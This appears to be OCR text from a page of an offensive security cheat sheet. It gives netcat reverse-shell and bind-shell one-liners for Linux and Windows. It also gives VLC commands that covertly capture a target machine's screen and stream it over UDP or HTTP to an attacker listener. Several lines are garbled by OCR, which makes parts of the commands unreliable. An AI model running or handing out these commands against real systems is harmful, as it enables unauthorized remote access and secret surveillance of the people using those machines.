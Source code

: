 Linux Reverse Shell:
$ nc [LocalIP] [port] -e /bin/bash

Windows Shell:
$ nc -l -p [port] -e cmd.exe

Windows Reverse Shell:
$ nc [LocalIP] [port] -e cmd.exe


VLC STREAMING


# Use cvlc (command line VLC) on target to mitigate popups

CAPTURE AND STREAM THE SCREEN OVER UDP TO <ATTACKERIP>: 1234

# Start a listener on attacker machine vlc udp://@:1234

-- OR -

# Start a listener that stores the stream in a file.
vlc udp://@:1234 :sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a, ab=128,channels=2,samplerate=44100}:file{dst=test.mp4} :no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep

# This may make the users screen flash. Lower frame rates delay the video.
vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,samplerate=44100}:udp{dst= attackerip :1234} :no-sout-rtp-sap :no-sout-standard-sap :tt1=1 :sout-keep


CAPTURE AND STREAM THE SCREEN OVER HTTP

# Start a listener on attacker machine vlc http://server.example.org:8080

-- OR -

# Start a listener that stores the stream to a file vlc http://server.example.org:8080 --
sout=#transcode(vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,samp lerate=441001:fileidst=test.mp41

# Start streaming on target machine
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,samplerate=44100}:http{mux=ffmpeg{mux=f1v},dst=:8080/} :no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep

